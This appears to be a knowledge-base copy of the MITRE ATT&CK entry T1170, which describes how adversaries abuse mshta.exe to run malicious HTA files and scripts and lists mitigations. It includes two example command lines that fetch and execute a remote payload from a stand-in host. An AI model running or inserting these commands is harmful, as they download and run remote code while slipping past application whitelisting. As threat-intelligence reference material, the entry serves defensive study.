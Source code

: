 ```yaml
---
alias: T1170
---
```


## T1170

Mshta.exe is a utility that executes Microsoft HTML Applications (HTA). HTA files have the file extension <code>.hta</code>. (Citation: Wikipedia HTML Application) HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser. (Citation: MSDN HTML Applications)

Adversaries can use mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code (Citation: Cylance Dust Storm) (Citation: Red Canary HTA Abuse Part Deux) (Citation: FireEye Attacks Leveraging HTA) (Citation: Airbus Security Kovter Analysis) (Citation: FireEye FIN7 April 2017) 

Files may be executed by mshta.exe through an inline script: <code>mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))</code>

They may also be executed directly from URLs: <code>mshta http[:]//webserver/payload[.]hta</code>

Mshta.exe can be used to bypass application whitelisting solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings. (Citation: LOLBAS Mshta)


### Tactic
- [[Defense Evasion]] (TA0005)
- [[Execution]] (TA0002)

### Platforms
- Windows

### Permissions Required
- User

### Mitigations

| ID | Name | Description |
| --- | --- | --- |
| [[Execution Prevention\|M1038]] | Execution Prevention | Use application whitelisting configured to block execution of mshta.exe if it is not required for a given system or network to prevent potential misuse by adversaries. |
| [[Disable or Remove Feature or Program\|M1042]] | Disable or Remove Feature or Program | Mshta.exe may not be necessary within a given environment since its functionality is tied to older versions of Internet Explorer that have reached end of life. |

### Sub-techniques


---
### References

- mitre-attack: https://attack.mitre.org/techniques/T1170
- Wikipedia HTML Application: https://en.wikipedia.org/wiki/HTML_Application
- MSDN HTML Applications: https://msdn.microsoft.com/library/ms536471.aspx
- Cylance Dust Storm: https://s7d2.scene7.com/is/content/cylance/prod/cylance-web/en-us/resources/knowledge-center/resource-library/reports/Op_Dust_Storm_Report.pdf
- Red Canary HTA Abuse Part Deux: https://www.redcanary.com/blog/microsoft-html-application-hta-abuse-part-deux/
- FireEye Attacks Leveraging HTA: https://www.fireeye.com/blog/threat-research/2017/04/cve-2017-0199-hta-handler.html
- Airbus Security Kovter Analysis: https://airbus-cyber-security.com/fileless-malware-behavioural-analysis-kovter-persistence/
- FireEye FIN7 April 2017: https://www.fireeye.com/blog/threat-research/2017/04/fin7-phishing-lnk.html
- LOLBAS Mshta: https://lolbas-project.github.io/lolbas/Binaries/Mshta/

